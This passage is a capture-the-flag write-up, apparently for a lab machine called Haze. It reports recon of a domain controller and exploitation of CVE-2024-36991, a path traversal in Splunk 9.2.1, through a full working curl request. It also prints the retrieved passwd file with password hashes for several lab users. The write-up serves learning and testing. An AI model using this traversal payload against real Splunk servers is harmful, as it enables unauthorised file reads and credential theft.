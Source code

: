 As we can see we are dealing with an active directory setup and this is probably a domain controller as we could see from ssl cert it does leak the hostname and it also leaks the name of the domain controller which is dc01 so let's add those to the hosts file

```bash 
10.10.11.61 dc01 dc01.haze.htb haze.htb
```

let's check port 8000 it's running a webserver
![](/assets/posts/Haze/Haze.png)
we can find splunk running 

# Exploitation

## CVE-2024-36991

if we go to https://haze.htb:8089 which is a service port related to splunk as well we could leak the version which is 9.2.1, this version  is vulnerable to CVE-2024-36991 it allows an attacker to read files on disk

Poc
```bash
➜  CVE-2024-36991 git:(main) ✗ curl  "http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Program%20Files/Splunk/etc/passwd"
:admin:$6$Ak3m7.aHgb/NOQez$O7C8Ck2lg5RaXJs9FrwPr7xbJBJxMCpqIx3TG30Pvl7JSvv0pn3vtYnt8qF4WhL7hBZygwemqn7PBj5dLBm0D1::Administrator:admin:changeme@example.com:::20152
:edward:$6$3LQHFzfmlpMgxY57$Sk32K6eknpAtcT23h6igJRuM1eCe7WAfygm103cQ22/Niwp1pTCKzc0Ok1qhV25UsoUN4t7HYfoGDb4ZCv8pw1::Edward@haze.htb:user:Edward@haze.htb:::20152
:mark:$6$j4QsAJiV8mLg/bhA$Oa/l2cgCXF8Ux7xIaDe3dMW6.Qfobo0PtztrVMHZgdGa1j8423jUvMqYuqjZa/LPd.xryUwe699/8SgNC6v2H/:::user:Mark@haze.htb:::20152
:paul:$6$Y5ds8NjDLd7SzOTW$Zg/WOJxk38KtI.ci9RFl87hhWSawfpT6X.woxTvB4rduL4rDKkE.psK7eXm6TgriABAhqdCPI4P0hcB8xz0cd1:::user:paul@haze.htb:::20152
```
We couldn't crack any of the hashes, so we pivoted to extracting Splunk configuration files:
